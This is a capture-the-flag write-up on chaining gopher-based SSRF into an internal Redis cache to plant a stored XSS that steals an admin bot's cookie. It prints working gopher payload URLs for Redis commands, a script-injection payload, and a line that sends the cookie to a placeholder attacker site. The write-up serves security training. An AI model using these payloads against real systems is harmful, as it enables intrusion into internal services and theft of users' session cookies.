

# PastaXSS - 5 solves

## Information

The task was provided with source code and had many php files but here are important stuff.
### Markdown in jutsus description

The code that implemented markdown used `htmlspecialchars` with `redis` for caching and [knp-markdown-bundle](https://github.com/KnpLabs/KnpMarkdownBundle) as markdown conversion. 

### Redis
`redis` is used for caching jutsu descriptions and it's address was `redis://redis`.

All jutsus had id, And each jutsu, has it's description in cache with following format.

`jutsu(jutsuID)`

### CURL
Also There was functionality in challenge that let us to import jutsu with curl. 

### Report to admin bot

We could send our jutsu link to admin bot and he would visit it with flag in his cookies.

The bot was implemented with `PhantomJS` and was only accepting urls that match following regex.

`/^http://web1.fword.wtf/jutsu/\d*$/` 

## Part 1 - Gopher

Gopher is so useful for SSRF attacks and lets you to attack some juicy stuff like [databases](https://tarun05blog.wordpress.com/2018/02/05/ssrf-through-gopher/) or [uWSGI servers](https://zaratec.github.io/2018/12/20/rwctf2018-magic-tunnel/).

Gopher is going to help us much for exploiting `redis`.

## Part 1 - Exploit redis with SSRF
   
There was blacklist filtering that prevented us from using `file` and few other things.

fortunately `redis` hostname was not filtered so we could communicate with it. 

Executing commands on `redis` with `gopher`, is easier than it sounds like. The following principle worked for this SSRF attack. 

` curl 'gopher://redis:6379/_urlencode(command)'` 

So we could grab all keys with this url.

`gopher://redis:6379/_KEYS%20%2A`

Which resulted to:

## Part 2 - Change our jutsu description with SSRF

So lets try to change our jutsu description with SSRF to redis.

We know that our jutsu description is in cache and also we have it's name. All jutsus that set in redis from php are prefixed with `yLAP6wFwIy:`, which i guess it's for namespacing.

We could like grab our jutsu 5598 description with this url:

`gopher://redis:6379/_GET%20yLAP6wFwIy%3Ajutsu5598`

Which result to

`$24 s:16:"
sdfsdfsf
 ";`

This is our php serialized jutsu description <b>after</b> conversion to markdown. what we set here won't go though `htmlspecialchars` and markdown conversion xD. 

So to change jutsu's description to something like `itworked`, we should set `yLAP6wFwIy:jutsu5598` to php serialized format of `itworked` which is `s:8:"itworked";`.

This url would do the job.

`gopher://redis:6379/_SET%20yLAP6wFwIy%3Ajutsu5598%20%27s%3A8%3A%22itworked%22%3B%27`

> We can wrap our set value in quotes or single quotes to avoid some parsing problems. 

### part 3 - XSS in jutsu

So we can inject description in our jutsu and bypass `htmlspecialchars`. The next step would be put xss payload in our jutsu's description and report it to admin and grab flag.

We used following url to put payload in our jutsu.

`gopher://redis:6379/_SET%20yLAP6wFwIy%3Ajutsu5598%20%27s%3A81%3A%22%3Cscript%20src%3D%22URL%22%3E%3C%2Fscript%3E%22%3B%27`

And we put `document.location="https://yourwebsite/?a="+flag` in our embedded script. 

Reported our jutsu to admin, And we got the flag.

>FLAG: FwordCTF{Y0u_Only_h4vE_T0_cH4in_4nd_Th1nk_w3ll}

Thanks to my amazing teammates and ctf authors.
